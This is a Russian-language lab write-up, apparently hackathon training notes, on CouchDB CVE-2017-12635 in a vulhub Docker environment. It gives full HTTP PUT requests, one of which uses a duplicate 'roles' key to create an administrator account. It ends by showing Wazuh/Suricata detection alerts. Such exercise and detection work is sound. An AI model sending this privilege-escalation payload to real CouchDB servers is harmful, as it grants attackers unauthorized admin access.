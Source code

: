 # CVE-2017-12635

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-12635](https://nvd.nist.gov/vuln/detail/CVE-2017-12635)
* [https://docs.couchdb.org/en/stable/cve/2017-12635.html](https://docs.couchdb.org/en/stable/cve/2017-12635.html)

Из-за различий в парсере JSON CouchDB, основанном на Erlang, и парсере JSON, основанном на JavaScript, возможно предоставление документов \_users с дублирующимися ключами для ролей, используемых для контроля доступа в базе данных, включая роль \_admin, обозначающей административных пользователей.

### Эксплуатация уязвимости
> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/couchdb/CVE-2017-12635

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5984/_utils/ будет доступна страница авторизации CouchDB

<figure><img src="../../.gitbook/assets/cve-2017-12635(1).png" alt=""><figcaption></figcaption></figure>

Для добавления пользователя можно отправить соответствующий запрос:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 92

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}	
```

Но после его отправки мы получим ответ, что только администратор может выставлять роли пользователям&#x20;

<figure><img src="../../.gitbook/assets/cve-2017-12635(2).png" alt=""><figcaption></figcaption></figure>

Но, если добавить дополнительное пустое поле "roles", то можно обойти ограничение

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: ваш-ip:5984
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

<figure><img src="../../.gitbook/assets/cve-2017-12635(3).png" alt=""><figcaption></figcaption></figure>

Был создан пользователь vulhub с паролем vulhub с ролью администратора:

<figure><img src="../../.gitbook/assets/cve-2017-12635(4).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации CouchDB RCE&#x20;

<figure><img src="../../.gitbook/assets/cve-2017-12635(5).png" alt=""><figcaption></figcaption></figure>
